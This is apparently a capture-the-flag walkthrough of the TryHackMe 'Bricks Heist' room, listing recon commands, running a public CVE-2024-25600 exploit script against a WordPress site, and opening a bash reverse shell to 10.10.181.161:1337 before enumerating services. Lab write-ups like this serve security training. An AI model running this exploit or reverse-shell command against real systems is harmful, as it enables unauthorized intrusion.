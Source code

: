 # TryHack3M: Bricks Heist

#### Add hostname to host file <a href="#add-hostname-to-host-file" id="add-hostname-to-host-file"></a>

```
echo $VICTIM bricks.thm  >> /etc/hosts
cat /etc/hosts
```

## &#x20;<a href="#scans" id="scans"></a>

## **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

**Kali**

```
gobuster dir -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





## **TCP/443 - HTTPS**

**Kali**

```
gobuster dir -k -u https://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

















<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







**Kali**

```
wpscan --url https://bricks.thm/ --disable-tls-checks
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT.git
cd CVE-2024-25600-EXPLOIT/
python CVE-2024-25600.py -u https://bricks.thm/
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Shell <a href="#initial-shell" id="initial-shell"></a>

**Kali**

```
nc -lvnp 1337
```



**Kali(Shell)**

```
bash -c 'exec bash -i >& /dev/tcp/10.10.181.161/1337 0>&1'
```

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
systemctl list-units --type=service --state=running
```

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
systemctl cat ubuntu.service
```

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>





























